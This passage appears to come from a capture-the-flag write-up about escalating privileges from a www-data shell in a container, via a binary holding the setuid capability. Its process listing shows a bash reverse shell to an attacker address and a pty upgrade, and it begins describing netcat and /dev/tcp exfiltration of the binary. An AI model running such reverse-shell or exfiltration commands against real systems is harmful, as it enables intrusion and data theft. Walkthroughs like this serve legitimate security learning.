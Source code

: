             }
            close(fd);
            fflush(stdout);             
    } 



That raises a question - how can it make that call? It would need to be
running as root, or somehow be given that capability. I already looked,
and while the file is owned by root, it isn't SUID. It is being called
by NGINX, but that process is running as www-data, as evidenced by my
current shell, as well as the process list:



    www-data@pki:~.md$ ps auxww                       
    USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root          1  0.0  0.0   4628   856 ?        Ss   11:40   0:00 /bin/sh -c /entry.sh
    root          9  0.0  0.0  18376  3056 ?        S    11:40   0:00 /bin/bash /entry.sh
    root         11  0.0  0.0 141120  1572 ?        Ss   11:40   0:00 nginx: master process nginx
    www-data     12  0.0  0.1 141776  5076 ?        S    11:40   0:02 nginx: worker process
    www-data     13  0.0  0.0 141440  3480 ?        S    11:40   0:00 nginx: worker process
    root         14  0.0  0.3  84952 12824 ?        Ss   11:40   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
    www-data     15  0.0  0.2  85216  9384 ?        S    11:40   0:01 php-fpm: pool www
    www-data     19  0.0  0.2  85216  9388 ?        S    11:40   0:01 php-fpm: pool www
    www-data    128  0.0  0.2  85224 10080 ?        S    12:04   0:02 php-fpm: pool www
    www-data    636  0.0  0.2  85220  9512 ?        S    12:05   0:01 php-fpm: pool www
    www-data  11226  0.0  0.2  85220  9512 ?        S    12:07   0:00 php-fpm: pool www
    www-data  14776  0.0  0.0   4628   860 ?        S    12:22   0:00 sh -c bash -c 'bash -i >& /dev/tcp/192.168.254.2/4433 0>&1'
    www-data  14777  0.0  0.0  18376  3112 ?        S    12:22   0:00 bash -c bash -i >& /dev/tcp/192.168.254.2/4433 0>&1
    www-data  14778  0.0  0.0  18508  3472 ?        S    12:22   0:00 bash -i
    www-data  14782  0.0  0.2  36668  8608 ?        R    12:25   0:00 python3 -c import pty;pty.spawn("bash")
    www-data  14783  0.0  0.0  18508  3440 pts/0    Ss   12:25   0:00 bash
    www-data  14914  0.0  0.0  34404  2948 pts/0    R+   13:18   0:00 ps auxww



It could be running on a cron periodically, but then it would still fail
when the webapp calls it. The binary has the `setuid` capability:



    www-data@pki:~$ getcap /usr/bin/ersatool 
    /usr/bin/ersatool = cap_setuid+eip



So if there's some way to exploit this binary and get it to run code, I
can get root in this container.

### Exfil

To look at the binary, I need to get a copy back to my VM. One option
would be to base64 encode it and then just copy and paste it.
Alternatively, I can send it to web, and then `scp` back to my host.
I'll start `nc` listening on web, pipe the file into `/dev/tcp` on pki:
